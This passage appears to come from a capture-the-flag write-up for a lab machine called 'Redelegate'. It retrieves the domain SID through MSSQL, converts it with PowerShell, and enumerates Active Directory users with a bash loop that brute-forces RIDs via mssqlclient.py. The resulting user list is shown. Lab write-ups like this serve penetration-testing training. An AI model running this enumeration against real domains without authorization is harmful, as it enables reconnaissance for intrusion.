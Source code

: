 Next we get the Domain SID by querying one of the default groups for it (the first 48 bytes will be the domain SID):

```sql
SELECT SUSER_SID('REDELEGATE\Domain Admins')

-----------------------------------------------------------
b'010500000000000515000000a185deefb22433798d8e847a00020000'
```

We can convert this to a readable string with PowerShell:

```powershell
$BinarySID = "010500000000000515000000a185deefb22433798d8e847a00020000"
$SIDBytes = [byte[]]::new($BinarySID.Length / 2)
for ($i = 0; $i -lt $BinarySID.Length; $i += 2) {
    $SIDBytes[$i / 2] = [convert]::ToByte($BinarySID.Substring($i, 2), 16)
}
$SID = New-Object System.Security.Principal.SecurityIdentifier($SIDBytes, 0)
$SID.Value

S-1-5-21-4024337825-2033394866-2055507597-512
``` 
We can now enumerate users by appending something different on the part that identifies the user (here 512). For example with a quick bash loop:

```bash
#!/bin/bash

USERNAME="sqlguest"
PASSWORD="***"
SERVER="redelegate.vl"
SID_BASE="S-1-5-21-4024337825-2033394866-2055507597"

for SID in {1100..1200}; do
    QUERY="SELECT SUSER_SNAME(SID_BINARY(N'$SID_BASE-$SID'))"
    echo "$QUERY" > query.sql
    mssqlclient.py "$USERNAME:$PASSWORD@$SERVER" -file query.sql  | grep -a REDELEGATE
    rm query.sql
done
```

Running it gives the domain users we want:

```terminal
bash enum.sh
REDELEGATE\FS01$
REDELEGATE\Christine.Flanders
REDELEGATE\Marie.Curie
REDELEGATE\Helen.Frost
REDELEGATE\Michael.Pontiac
REDELEGATE\Mallory.Roberts
REDELEGATE\James.Dinkleberg
REDELEGATE\Helpdesk
REDELEGATE\IT
REDELEGATE\Finance
REDELEGATE\DnsAdmins
REDELEGATE\DnsUpdateProxy
REDELEGATE\Ryan.Cooper
REDELEGATE\sql_svc
```
